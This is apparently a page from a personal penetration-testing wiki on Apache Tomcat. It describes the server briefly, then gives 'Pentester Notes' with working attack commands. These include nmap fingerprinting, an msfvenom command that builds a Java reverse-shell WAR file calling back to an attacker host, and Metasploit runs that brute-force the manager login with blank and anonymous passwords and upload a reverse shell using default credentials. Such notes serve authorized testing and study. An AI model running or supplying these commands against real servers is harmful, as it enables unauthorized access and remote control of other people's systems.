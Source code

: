 # Apache Tomcat

<div class="row row-cols-lg-2"><div>

[Apache Tomcat](https://tomcat.apache.org/) is an open-source web server. It provides a Java HTTP web server environment in which Java code can run.

* [GitHub](https://github.com/apache/tomcat) <small>(7.1k ⭐)</small>
* [Documentation](https://tomcat.apache.org/tomcat-11.0-doc/index.html) <small>(⛪)</small>

The version 11 is still in development. The previous major versions are version 10 <small>(2021)</small>, version 9 <small>(2018)</small>, and version 8 <small>(2016)</small>.
</div><div>

A java web application can use either or both servlets and JSPs. A combination of both is the most common architecture.

* **Servlets** ☕: the whole logic is in Java
* **JSP** 🐲: html-like template files in which we can add Java logic to handle input and create interactive pages.
</div></div>

<hr class="sep-both">

## Pentester Notes ☠️

<div class="row row-cols-lg-2"><div>

* You can use [nmap](/cybersecurity/red-team/tools/scanners/ports/nmap.md). It often runs on port 8080.

```shell!
$ sudo nmap 10.10.10.95 -sCV -v
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
```

* We can often easily recognize a website using Apache Tomcat from the presence of the `JSESSIONID` cookie.

* We can often easily recognize a website using Apache Tomcat from the error message page layout.

* The manager, often at `/manager/html`, is used to manage and deploy web applications might be accessible. If you have access to it, you can try to upload a reverse shell. To generate one:

*Works with Tomcat 7*

```ps
$ msfvenom -p java/shell_reverse_tcp LHOST=<IP> LPORT=4444 -f war -o revshell.war
```

You can try [tomcatWarDeployer](https://github.com/mgeeky/tomcatWarDeployer) <small>(0.4k ⭐, 2022 🪦)</small>, but it's memory hungry, buggy and unstable, and you need to patch the code first 🪦.
</div><div>

* We can try to brute force the manager account using [metasploit](/cybersecurity/red-team/tools/frameworks/metasploit/index.md).

```shell!
$ msfconsole -q
msf6> use auxiliary/scanner/http/tomcat_mgr_login
msf6> set RHOSTS <target>
msf6> set STOP_ON_SUCCESS true
msf6> set ANONYMOUS_LOGIN true
msf6> set BLANK_PASSWORDS true
msf6> run
```

If we have access to the manager, we can try to upload a reverse shell. Metasploit servlet doesn't work with Tomcat 7 and before.

```shell!
$ msfconsole -q
msf6> use exploit/multi/http/tomcat_mgr_upload
msf6> set RHOSTS <target>
msf6> set RPORT 8080
msf6> set HttpUsername tomcat
msf6> set HttpPassword s3cret
msf6> set LHOST tun0
msf6> set VERBOSE true
msf6> run
```
</div></div>